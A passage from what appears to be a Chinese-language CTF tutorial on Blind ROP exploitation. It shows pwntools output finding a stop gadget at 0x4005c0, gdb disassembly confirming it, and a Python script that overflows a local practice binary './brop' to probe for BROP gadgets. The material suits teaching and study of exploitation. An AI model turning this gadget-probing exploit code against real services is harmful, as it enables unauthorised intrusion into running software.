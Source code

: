 ```plain
[+] Starting local process './brop': pid 120035
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120035)
0x4005c0
[+] Starting local process './brop': pid 120038
[*] Stopped process './brop' (pid 120038)
stop gadgets = 0x4005c0
```

可以查看汇编代码验证：(但是真实情况下看不见，这就是脚本的作用)

```plain
gdb-peda$ x /20i 0x4005c0
   0x4005c0 <_start>:   xor    ebp,ebp
   0x4005c2 <_start+2>: mov    r9,rdx
   0x4005c5 <_start+5>: pop    rsi
   0x4005c6 <_start+6>: mov    rdx,rsp
   0x4005c9 <_start+9>: and    rsp,0xfffffffffffffff0
##这里返回的是_start，返回 main 的地址也有用，但是返回_init 不行，这主要看起始给的地址
```

4、寻找 brop gadgets（例如 **\_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址**

```plain
# -*- encoding: utf-8 -*-
from pwn import *
from LibcSearcher import *
#得到可能的 brop gatget
def get_brop_gadget(length, stop_gadget, addr):            
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10             #参考 ret2csu 原理，这里也可以省去 p64(0)*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        #print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        p.close()
        return False

#对可能的 gatget 进行检查
def check_brop_gadget(length, addr):
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10  #同样可以省去'a'*8*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        return False
    except Exception:
        p.close()
        return True


##buffer_length = GetBufferLength()
buffer_length = 72
##stop_gatget = getStopAddr(length)
stop_gadget = 0x4005c0
addr = 0x400760
```
